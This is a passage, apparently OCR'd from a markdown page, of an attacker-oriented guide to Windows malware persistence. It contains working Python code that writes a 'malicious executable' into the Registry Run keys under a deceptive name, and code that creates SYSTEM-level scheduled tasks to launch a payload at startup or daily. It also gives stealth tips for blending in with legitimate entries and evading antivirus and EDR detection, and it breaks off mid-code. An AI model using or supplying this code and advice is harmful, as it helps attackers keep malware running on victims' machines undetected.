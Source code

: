 The Windows Registry is a primary target for persistence due to its role in managing system and user-specific startup configurations. Two key registry keys are exploited:  
- **`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`** (user-specific persistence).  
- **`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`** (system-wide persistence).  

#### **Implementation in Python**  
The `winreg` module in Python allows programmatic modification of registry keys. Below is an example of adding a malicious executable to the `Run` key:  

```python
import winreg

def add_registry_persistence(executable_path, key_name="WindowsUpdateService", hive=winreg.HKEY_CURRENT_USER):
    try:
        reg_key = winreg.OpenKey(hive, r"Software\Microsoft\Windows\CurrentVersion\Run", 0, winreg.KEY_WRITE)
        winreg.SetValueEx(reg_key, key_name, 0, winreg.REG_SZ, executable_path)
        winreg.CloseKey(reg_key)
        print(f"[+] Persistence key '{key_name}' added to {hive}.")
    except Exception as e:
        print(f"[-] Error: {e}")
```

#### **Stealth Techniques**  
- **Deceptive Key Names**: Use names like `"Windows Update Service"` or `"SystemHealthMonitor"` to blend with legitimate entries.  
- **Trusted Directories**: Store the executable in system directories (e.g., `C:\Windows\Temp\`) to avoid suspicion.  
- **RunOnce Key**: For delayed execution, use `RunOnce` to trigger the payload on the next reboot.  

#### **Detection Risks**  
- **Signature-Based Detection**: Antivirus tools may flag known registry paths (e.g., `Run` entries).  
- **Behavioral Analysis**: EDRs may detect suspicious writes to `Run` keys, especially with obfuscated names.  

---

### **2. Scheduled Tasks for Persistence**

Scheduled Tasks provide an alternative persistence mechanism by leveraging Windows' built-in task scheduler. This method is particularly effective for executing payloads at system startup or recurring intervals.  

#### **Implementation in Python**  
The `subprocess` module can execute `schtasks` commands to create tasks:  

```python
import subprocess

def create_scheduled_task(task_name, executable_path, trigger="at startup"):
    try:
        if trigger == "at startup":
            subprocess.run([
                "schtasks", "/create", "/tn", task_name, "/tr", executable_path,
                "/sc", "onstart", "/ru", "SYSTEM"
            ], check=True)
        elif trigger == "daily":
            subprocess.run([
                "schtasks", "/create", "/tn", task_name, "/tr", executable_path,
                "/sc", "daily", "/st", "00:00", "/ru", "SYSTEM"
            ], check=True)
        print(f"[+] Task '{task_name}' created successfully.")
    except subprocess.CalledProcessError as e:
```
